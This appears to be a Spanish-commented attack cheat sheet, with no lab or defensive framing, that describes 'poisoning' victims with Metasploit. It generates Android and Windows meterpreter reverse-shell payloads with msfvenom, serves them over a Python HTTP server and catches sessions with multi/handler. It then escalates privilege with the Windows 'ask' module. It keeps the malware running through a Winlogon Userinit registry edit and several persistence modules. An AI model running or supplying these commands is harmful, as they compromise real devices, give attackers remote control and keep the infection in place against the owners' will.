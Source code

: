 #METODO LOCAL PARA ENVENENAR ANDROID EN EL LIMBO CON NUESTRA DIRECCIÒN
hostname -i
#SELECCIONANDO VENENO Y DEFINIENDO VICTIMA CON PLATAFORMA
sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=hostname LPORT=443
-o nombre.apk
#LANZAMOS EL VENENO A LA RED
sudo python3 -m http.server 80
#ACTIVAMOS EL  VENENO
sudo msfconsole
use /multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST hostname
set LPORT puerto
run
#METODO LOCAL PARA ENVENENAR WINDOWS LOCAL
hostname -i
#SELECCIONANDO VENENO Y DEFINIENDO VICTIMA CON PLATAFORMA
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444
 -f exe >secnhack.exe
#LANZAMOS EL VENENO A LA RED
sudo python3 -m http.server 80
#ACTIVAMOS EL  VENENO
sudo msfconsole
use /multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (your ip)
set lport 4444
exploit
#ESTE METODO NOS DARA MAS PRIVILEGIO EN LA VICTIMA
use exploit/windows/local/ask 
set session 1
exploit
#METODO PARA QUE EL VENO SE ACTIVE  EN CADA INICIO
pwd
cd /windows/system32
upload secnhack.exe
shell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, secnhack.exe" /f
#METODO PARA HACERLO PERSISTENTE
use post/windows/manage/persistence_exe
set rexpath /root/secnhack.exe
set session 3
exploit
#METODO PARA HACERLO PERSISTENTE POR REGISTRO
use exploit/windows/local/registry_persistence
set session 9
exploit
#METODO PARA HACERLO AUN MAS PERSISTENTE
use exploit/windows/local/persistence_service
set session 7
exploit
